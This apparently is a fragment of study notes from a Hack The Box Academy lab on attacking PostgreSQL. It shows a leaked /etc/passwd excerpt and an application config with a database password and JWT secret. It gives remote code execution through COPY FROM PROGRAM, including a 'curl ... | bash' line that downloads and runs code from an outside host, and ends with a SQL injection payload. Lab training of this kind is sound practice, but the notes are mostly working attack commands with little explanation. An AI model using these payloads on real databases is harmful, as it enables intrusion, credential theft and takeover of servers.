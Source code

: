 ```bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```


Depending on user permissions, the INSERT queries may fail. In that case you could try using lo_put as it is described in the documentation:


```sql
bluebird=# SELECT lo_put(31337, 0, 'this is a test');
 lo_put 
--------
 
(1 row)
```


```properties
spring.datasource.url= jdbc:postgresql://localhost:5432/bluebird
spring.datasource.username= bbuser
spring.datasource.password= bbpassword

bluebird.app.jwtSecret= 72Ao88agtuOFT7PerfCtF80qzuyK1sEa
bluebird.app.jwtExpirationMs= 8640000
bluebird.app.jwtCookieName= auth
```


student:academy.hackthebox.com




Remote code execution using the create, copy and select clause

```sql
bluebird=# CREATE TABLE tmp(t TEXT);
CREATE TABLE
bluebird=# COPY tmp FROM PROGRAM 'id';
COPY 1
bluebird=# SELECT * FROM tmp;


create table tmp(t TEXT); copy tmp from PROGRAM 'curl http://10.10.15.101/index.html | bash';SELECT * FROM tmp;
```






for the remote execution code this is the payload 

first payload

```url
%' or 1=1
```

